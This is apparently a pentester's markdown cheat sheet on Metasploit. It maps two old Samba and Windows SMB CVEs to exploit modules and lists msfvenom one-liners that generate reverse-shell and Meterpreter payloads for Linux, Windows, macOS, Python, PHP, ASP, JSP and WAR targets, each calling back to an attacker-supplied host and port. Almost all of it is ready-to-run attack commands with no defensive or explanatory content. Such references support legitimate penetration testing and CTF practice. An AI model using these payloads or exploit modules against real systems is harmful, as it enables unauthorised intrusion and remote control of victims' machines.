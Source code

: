 # Metasploit
#exploit #msf #metasploit


## Post-Modules
Name | Desc
--- | ---
`local_exploit_suggester` | finds exploits in x86 envs


## Correlation
Service | CVE | MSF-Module
--- | --- | ---
Samba 3.0.20 | [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) | exploit/multi/samba/usermap_script
Windows <7| [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250) | exploit/windows/smb/ms08_067_netapi


## MSFVenom
Source: https://netsec.ws/?p=331
Name | Desc
--- | ---
`msfvenom -l` | show payloads


### OS
Name | Desc
--- | ---
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf > shell.elf` | ELF / Linux
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe > shell.exe` | EXE / Windows
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f macho > shell.macho` | macho / Mac / OSX

### Prog-Langs
Name | Desc
--- | ---
`./msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.1.1 -f raw -o test.py` | Python payload

### Web
Name | Desc
--- | ---
`msfvenom -p php/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw > shell.php && cat shell.php` | `pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php` | PHP
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f asp > shell.asp` |  ASP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw > shell.jsp` | JSP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f war > shell.war` | WAR


## Meterpreter
### Zugriff auf Alternate Data Stream
`cat <binary-name>:<ads-name>`